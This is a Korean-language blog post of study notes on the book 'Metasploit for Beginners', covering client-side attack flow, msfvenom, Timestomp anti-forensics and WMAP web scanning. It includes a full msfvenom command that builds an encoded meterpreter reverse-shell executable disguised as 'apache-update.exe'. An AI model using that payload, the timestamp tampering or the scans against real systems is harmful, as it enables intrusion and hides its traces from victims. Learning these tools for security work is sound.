 ```yaml
---
layout: post
title: "Metasploit for Beginners 메모"
categories: [보안, 취약점스캐너]
tags: [취약점, 스캐너, metasploit]
toc: true
last_modified_at: 2023-10-06 17:15:00 +0900
---
```


# 개요
- Metasploit for Beginners(저자 Sagar Rahalkar) 책을 보고 일부 메모한 파일이다. 
- https://www.amazon.com/Metasploit-Beginners-threat-free-best-class/dp/1788295978
- Metasploit 입문서로서는 아주 좋다. 쉽게 쓰여져 있고 알아야할 기본적인 내용은 다 써있다. 

# Client-side Attacks
- Client-side attack이란 각 개별 유저를 노리는 공격을 총칭한다. 예들 들어 공격자가 웹 사이트에서 멀웨어 코드가 임베드된 DOC, PDF, XLS등을 불특정 유저에게 다운로드시킨다음에 유저가 해당 파일을 실행하면 동작하는 타입의 공격이다. 
- 이런 타입의 공격은 기존의 공격 형태 (글로벌 IP를 가진 서버를 대상으로 하는 형태)와는 달리, 예를들어 라우터 뒤에 있는 특정 조직의 사내 서버라던가 조직내의 PC를 공격할 수 있다는 특징이 있다. 

## 공격 흐름
Client-side attack의 공격흐름은 다음과 같다. 
1. msfvenom을 사용해서 페이로드를 만든다.
2. incomming 커넥션을 처리하기 위한 리스너를 시작한다. 
3. victim에게 페이로드를 보낸다. 
4. 리버스 세션을 기다린다. 

## 페이로드 생성 
### Msfvenom 
예전에는 Metasploit에 msfpayload 와 msfencode 만 존재했다. msfpayload는 시스템을 공격하기 위한 페이로드가, msfencode는 그 페이로드를 숨기기위한 obfuscate기능이 있다. 이 두가지 기능을 합친것이 최근에 등장한 msfvenom 이다. 

### 커맨드 
다음 커맨드를 사용해서 페이로드를 만든다. 

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST= 192.168.44.134 LPORT= 8080 -e x86/shikata_ga_nai \ 
-f exe -o /root/Desktop/apache-update.exe
```

각 옵션의 의미는 다음과 같다. 

- -a x86: x86아키텍처상에서 동작하는 페이로드를 만든다. 
- --platform windows: 페이로드가 동작하는 플랫폼은 windows이다. 
- -p windows/meterpreter/reverse_tcp: 페이로드는 reverse TCP로 동작하는 meterpreter이다. 
- -e x86/shikata_ga_nai: 페이로드 인코더는 shikata_ga_nai를 사용한다. 
- -f exe: 아웃풋 포맷은 exe이다. 
- -o /root/Desktop/apache-update.exe: 만들어진 페이로드가 저장될 경로이다. 

# Anti-forensics
## Timestomp 
- Timestomp 툴을 사용해서 파일의 생성시간, 갱신시간등을 덮어쓰기할 수 있다. 
- 그런데 윈도우즈에서 파일의 시간데이터를 덮어쓰는 것은 어려운 일일까?
- [여기](https://tfl09.blogspot.com/2020/12/how-to-change-file-time-for-windows-file.html)를 보면 파워셸로 가능한 것 같다. 


# 웹 어플리케이션 스캔 (WMAP)

```sh
load wmap
wmap_sites -a TARGET_DOMAIN
wmap_targets -t TARGET_URL
wmap_targets -l
wmap_run -t # 스캔에 사용할 수 있는 모듈을 체크하고 리스트업한다. 
wmap_run -e # 스캔을 수행한다. 
wmap_vulns -l # 스캔수행후 발견한 취약점 리스트를 보여준다. 

``` 

## 정규식 테스트 
자바스크립트로 테스트해본다. 잘 동작하는 것 같다. 

```js
const myRe = /^((?!brute).)*$/s;
myRe.exec('auxiliary/scanner/http/brute_dirs'); // null
myRe.exec('auxiliary/scanner/http/soap_xml'); //결과 존재
```

## 정규식을 사용해서 사용되는 모듈 제어
잘 동작하지 않는다. `auxiliary/scanner/http/brute_dirs` 모듈이 시간이 오래걸리기 때문에 제외시키고 싶은데 잘 안된다. 

```sh
#정규표현식으로 특정 모듈(brute문자열이 포함된모듈) 제외
wmap_run -m ^((?!brute).)*$
wmap_run -m /^((?!brute).)*$/s
```


## 기타 

```sh
help wmap # 도움말 보기
msf6 > help wmap
                                                                                                                                                                      
wmap Commands                                                                                                                                                         
=============

    Command       Description
    -------       -----------
    wmap_modules  Manage wmap modules
    wmap_nodes    Manage nodes
    wmap_run      Test targets
    wmap_sites    Manage sites
    wmap_targets  Manage targets
    wmap_vulns    Display web vulns


```

## 참고 
- https://github.com/lattera/metasploit/blob/master/documentation/wmap.txt